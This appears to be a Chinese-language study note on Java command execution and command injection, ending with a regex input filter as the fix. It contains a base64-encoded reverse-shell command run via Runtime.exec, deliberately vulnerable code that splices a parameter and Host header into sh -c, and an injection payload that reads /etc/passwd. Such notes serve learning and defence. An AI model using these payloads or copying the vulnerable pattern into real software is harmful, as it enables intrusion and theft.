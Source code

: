 # 命令执行方法

## Runtime

```java
// 回显
InputStream in = Runtime.getRuntime().exec("whoami").getInputStream();

Runtime run = Runtime.getRuntime();
Process p = run.exec(cmd);
BufferedInputStream in = new BufferedInputStream(p.getInputStream());
```

```java
// 反弹shell
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}");
```

## ProcessBuilder

```java
InputStream in = new ProcessBuilder("whoami").start().getInputStream();

String[] arrCmd = {"/bin/sh", "-c", cmd};
ProcessBuilder processBuilder = new ProcessBuilder(arrCmd);
Process p = processBuilder.start();
BufferedInputStream in = new BufferedInputStream(p.getInputStream());
```

## ProcessImpl

```java
String[] cmds = new String[]{"whoami"};
// 需要通过反射获取
Class clazz = Class.forName("java.lang.ProcessImpl");
// ProcessBuilder.start方法是命令执行
Method method = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, Redirect[].class, boolean.class);
method.setAccessible(true);
Process e = (Process) method.invoke(null, cmds, null, ".", null, true);
```

## UNIXProcess

```java
String[] cmds = new String[]{"whoami"};
Class clazz = Class.forName("java.lang.UNIXProcess");
Method start = clazz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
start.setAccessible(true);
Process process = (Process) start.invoke(null, cmds, null, ".", null, true);
```

## JNI

> JNI的全称叫做（Java Native Interface），其作用就是让我们的Java程序去调用C的程序。实际上调用的并不是exe程序，而是编译好的dll动态链接库里面封装的方法

1. 定义一个native修饰的方法
2. 使用javah进行编译 
3. 编写对应的c语言代码
4. 使用gcc编译成dll文件
5. 编写一个Java类使用System.loadLibrary方法，加载dll文件并且调用

https://www.javasec.org/java-vuls/JNI.html





# 命令注入漏洞Demo

```java
// 参数注入
String[] cmdList = new String[]{"sh", "-c", "ls -al " + filepath};
ProcessBuilder builder = new ProcessBuilder(cmdList);
builder.redirectErrorStream(true);
Process process = builder.start();

// host注入
String host = request.getHeader("host");
String[] cmdList = new String[]{"sh", "-c", "curl" + host};
ProcessBuilder builder = new ProcessBuilder(cmdList);
builder.redirectErrorStream(true);
Process process = builder.start();
```

payload

```http
?filepath=/tmp;cat /etc/passwd
```

## 问题

![image-20231029145527688](../../../images/image-20231029145527688.png)

> Runtime和ProcessBuilder的**底层实际上都是ProcessImpl**。而不能执行dir命令的原因是java会对最后的我们传入的cmdstr进行以空格分割，也就是”echo xxx>test.txt”，会被分割会”echo”和”xxx>test.txt”，然后第一部分的”echo”会被当成启动的执行模块，然而在window的系统环境变量中是找不到这个启动模块的（可以在cmd中输入命令“where echo”进行测试）,所以运行后才会抛出“系统找不到指定文件”错误。

解决：`windows`加上`cmd /c`，`Linux`使用base64编码

![image-20231029145802922](../../..//images/image-20231029145802922.png)





## 修复代码

**主要是因为可以通过命令分隔符来执行多条命令**

该项目中给出的修复方法为通过正则只允许输入大小写字母、数字、下划线、斜杠、点和短横线

```java
private static final Pattern FILTER_PATTERN = Pattern.compile("^[a-zA-Z0-9_/\\.-]+$");

public static String cmdFilter(String input) {
        if (!FILTER_PATTERN.matcher(input).matches()) {
            return null;
        }

        return input;
    }
```

